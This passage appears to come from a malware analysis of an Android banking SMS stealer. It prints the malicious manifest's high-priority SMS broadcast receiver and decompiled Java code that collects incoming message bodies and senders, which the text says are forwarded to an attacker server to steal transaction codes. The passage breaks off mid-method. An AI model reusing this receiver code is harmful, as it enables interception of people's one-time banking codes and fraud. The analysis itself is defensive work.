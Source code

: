 ## SMS stealer

For SMS stealer behavior, the malicious application statically declares a broadcast receiver of BROADCAST_SMS in AndroidManifest file. The APK uses the broadcast receiver to listen for any incoming message and send the incoming SMS data to the attacker API server. Intently to get TAC code of the banking transaction for the illegal transaction.

```XML
<receiver android:name="com.service.sms.SmsReceiver" android:permission="android.permission.BROADCAST_SMS" android:enabled="true" android:exported="true" android:priority="9999999" android:stopWithTask="false">
            <intent-filter android:priority="9999999">
                <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
                <action android:name="android.provider.Telephony.SMS_DELIVER"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </receiver>
        <activity android:name="com.service.sms.MainSmsActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.SEND"/>
                <action android:name="android.intent.action.SENDTO"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="sms"/>
                <data android:scheme="smsto"/>
                <data android:scheme="mms"/>
                <data android:scheme="mmsto"/>
            </intent-filter>
            <meta-data android:name="android.app.lib_name" android:value=""/>
        </activity>
```

In the class MyReciever, the method onReceive will be triggered when an SMS is coming in and the application will send the SMS data to the attacker URL. Here's the code:

```Java
public class SmsReceiver extends BroadcastReceiver {
    private static final String TAG = "SmsReceiver";

    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        SmsMessage createFromPdu;
        if (intent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")) {
            Bundle extras = intent.getExtras();
            Object[] objArr = (Object[]) extras.get("pdus");
            int length = objArr.length;
            int i = 0;
            String str = "";
            String str2 = str;
            while (i < length) {
                Object obj = objArr[i];
                if (Build.VERSION.SDK_INT >= 23) {
                    createFromPdu = SmsMessage.createFromPdu((byte[]) obj, extras.getString(AbsoluteConst.JSON_KEY_FORMAT));
                } else {
                    createFromPdu = SmsMessage.createFromPdu((byte[]) obj);
                }
                str2 = str2 + createFromPdu.getMessageBody();
                i++;
                str = createFromPdu.getOriginatingAddress();
            }
            SimpleDateFormat simpleDateFormat = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
            SmsPush smsPush = new SmsPush();
            smsPush.setSender(str);
            smsPush.setBody(str2);
```